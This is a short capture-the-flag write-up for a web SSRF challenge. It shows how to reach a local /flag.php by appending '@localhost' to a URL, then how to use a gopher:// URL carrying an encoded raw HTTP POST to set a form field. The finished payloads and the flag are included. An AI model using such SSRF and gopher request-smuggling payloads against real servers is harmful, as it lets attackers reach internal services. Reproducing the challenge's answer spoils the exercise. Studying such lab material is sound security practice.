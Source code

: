 * Category
  * SSRF
* Solution
  1. How to forge as server
     * ```@localhost``` or ```@127.0.0.1``` after host name
     * The response doesn't show the flag but tell you that you need to set attribute
       ```html
       <form action="/flag.php" method="post">
            Do you want the FLAG? <input type="text" name="givemeflag" value="no">
            <input type="submit">
        </form>
       ``` 
  2. How to set value of ```givemeflag``` to ```yes```
     *  Use ```gopher``` protocol to send any TCP packet
     *  ```gopher://```
        *  protocol
     *  ```127.0.0.1:80```
        *  localhost
        *  http
     *  ```_```
        *  padding
     *  ```POST%20/flag.php%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2014%0d%0a%0d%0agivemeflag=yes```
        ```http
        POST /flag.php HTTP/1.1\r\n
        Host: 127.0.0.1\r\n
        Content-Type: application/x-www-form-urlencoded\r\n
        Content-Length: 14\r\n
        \r\n
        givemeflag=yes
        ```
* Payload
  1. ```http://h4ck3r.quest:8500@localhost/flag.php```
  2. ```gopher://127.0.0.1:80/_POST%20/flag.php%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2014%0d%0a%0d%0agivemeflag=yes```
* ```FLAG{gopher://http_post}```